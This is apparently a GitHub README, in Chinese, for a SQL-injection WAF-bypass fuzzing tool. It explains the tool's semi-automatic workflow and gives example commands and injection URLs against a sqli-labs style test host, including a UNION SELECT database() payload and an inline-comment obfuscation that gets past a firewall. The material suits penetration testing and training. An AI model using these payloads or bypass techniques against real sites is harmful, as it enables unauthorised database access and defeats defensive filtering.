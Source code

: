 # sql_Bypass_WAF
sql注入bypass waf工具，绕waf fuzz测试工具。

## 简介

sql_Bypass_WAF是一款sql注入绕waf工具，通过fuzz的方式，进行大量测试找到bypass语句。


## 整体流程

1. 半自动，需要人工判断拦截关键字并指定关键字进行fuzz测试。
2. 首先先访问一下waf拦截页面，获取拦截页面特征，如响应码、响应内容长度、body中关键字。
3. 进行fuzz测试，如果响应与之前的拦截响应有多处不同，证明成功绕过。


## Bypass方法

已实现Bypass方法：
内联注释

后续会更新更多的Bypass方法。



## 使用方法

1. -h查看参数帮助

![](./images/8.png)


2. 先判断出waf拦截的sql恶意语句。

![](./images/1.png)

3. 再将想要Bypass的语句带入到工具中，注意带入到工具中的url为waf拦截的url。

如果bypass一个参数，用"~"进行包裹，如
```
http://192.168.170.133/sqli/less-1/?id=1' and 1=1 --+
将"and"用~包裹后：
http://192.168.170.133/sqli/less-1/?id=1' ~and~ 1=1 --+
```

命令示例：
```
sql_Bypass_WAF.exe -s "http://192.168.170.133/sqli/less-1/?id=1' ~and~ 1=1 --+"
```

![](./images/2.png)


![](./images/3.png)

如果为两个参数，在两个参数中间加"^"，如
```
http://192.168.170.133/sqli/less-1/?id=1' order by 1 --+
将"order by"用^指定
http://192.168.170.133/sqli/less-1/?id=1' order^by 1 --+
```

命令示例：
```
sql_Bypass_WAF.exe -s "http://192.168.170.133/sqli/less-1/?id=1' order^by 1 --+"
```


![](./images/4.png)

![](./images/5.png)

暂不支持超过两个参数的fuzz，但可以拆分依次带入测试，如：

```
测试语句:
http://192.168.170.133/sqli/less-1/?id=-1' union select 1,database(),3 --+

先bypass"union select"
http://192.168.170.133/sqli/less-1/?id=-1' union^select 1,2,3 --+
bypass后语句：
http://192.168.170.133/sqli/less-1/?id=-1' union/*////%//select 1,2,3 --+

再bypass"database()"
http://192.168.170.133/sqli/less-1/?id=-1' union/*////%//select 1,database^(),3 --+

```

![](./images/6.png)

![](./images/7.png)



## 后续更新功能

1. post请求Bypass。
2. waf识别。
3. Bypass成功后自动生成tamper脚本。
4. 更多的Bypass方法。
